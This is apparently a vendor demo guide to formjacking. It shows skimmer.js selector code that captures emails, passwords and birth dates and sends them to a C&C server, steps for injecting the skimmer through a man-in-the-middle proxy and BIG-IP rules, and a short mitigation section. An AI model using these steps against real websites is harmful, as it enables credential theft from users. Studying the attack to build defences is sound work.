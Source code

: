 Formjacking Attack
##############################################################

.. image:: ./_pictures/UFO_mamy.png
   :align: center
   :width: 800
   :alt: All layers

.. contents:: Contents
    :local:

Introduction
*****************************************

This blog provides a formjacking code in order to understand how it works.

F5 customers are protected from magecart style attack by `F5 Client-Side Defense <https://www.f5.com/cloud/products/client-side-defense>`_:

    - **Analyse** the behavior of all Javascripts executed on your website
    - **Alert** your Cyber-SOC team if a javascript behaves like a malware and take action immediately (allow/block)
    - **Block** malicious Javascript execution

Thanks to `unit42 <https://unit42.paloaltonetworks.com/>`_ that did a great blog `here <https://unit42.paloaltonetworks.com/anatomy-of-formjacking-attacks/>`_ on this topic.

Configuration guide
*****************************************
- Open the web page with targeted form
- Inspect ``input`` elements to grab user data. Each element can be identified by an ``id``, a ``name``, a ``type``, etc...

.. code-block:: html

    <input ... id="login-credentials-form-password" name="password-uuid" type="password" ...>

- Open the file `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_
- Update the first 2 or 3 lines describing ``input`` elements to grab user data.

.. code-block:: javascript

    window["data_leak_label_email"] = ["input[id*='login-credentials-form-email']", "input[name*='email']", "input[type*='email']"]
    window["data_leak_label_password"] = ["input[id*='login-credentials-form-password']", "input[name*='password']"]
    window["data_leak_label_birth_date"] = ["input[id*='login-credentials-form-birthdate']", "input[name*='birthDate']"]

- Go back to the web page, inspect ``button`` elements when the user submit the form

.. code-block:: html

    <button ... type="submit" id="login-button">

- In `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_, the
- The fourth line describes ``button`` element to watch in order to send data to remote C&C server.
.. code-block:: javascript

    window["data_leak_label_submit_button"] = ["button[id*='login-button']"]

- If the form contains more or less input fields, update ``function listener_fetch_data_leak()`` in order to have exactly all required ``input`` elements defined previously

.. code-block:: javascript

    data_leak = {
        "email": get_element_value(window["data_leak_label_email"]),
        "password": get_element_value(window["data_leak_label_password"]),
        "birth_date": get_element_value(window["data_leak_label_birth_date"]),
        "uagent": navigator.userAgent
    }

Deployment guide
*****************************************

C&C server
=========================================
- Run C&C server as described `here <https://github.com/nergalex/c2-server>`_

Man In the Middle
=========================================
- Run a Reverse-Proxy that acts as a Man-In-The-Middle: forward all traffic to ORIGIN servers
- If DNS domain is spoofed, rewrite SNI and headers (HOST, ORIGIN and eventually others required by the App)
- Inject malware JS `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ in all or specific pages

BIG-IP UI configuration for JS insertion:

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/form_grabber
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste content of `skimmer.js <https://github.com/nergalex/f5-magecart/blob/master/skimmer.js>`_ surrounded by <script>...</script>

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber

    Local Traffic  ››  Virtual Servers ››  vs-demo
    +-- HTML Profile: html-demo

- Enable compression on client-side / downstream-side if ORIGIN servers use compression

Mitigation guide
*****************************************
- Connect to F5 Distributed Cloud
- Get your Client Side Defense JS (CSD)
- Inject CSD JS as well in the web page to protect

BIG-IP UI configuration for JS insertion:

    Local Traffic  ››  Profiles : Content : HTML : Rules /Common/f5_csd
    +-- Match settings ››  Match Tag Name: head
    +-- Action settings ››  HTML to Append: copy paste F5 CSD JS link

    Local Traffic  ››  Profiles : Content : HTML : /Common/html-demo
    +-- HTML rules: form_grabber + f5_csd


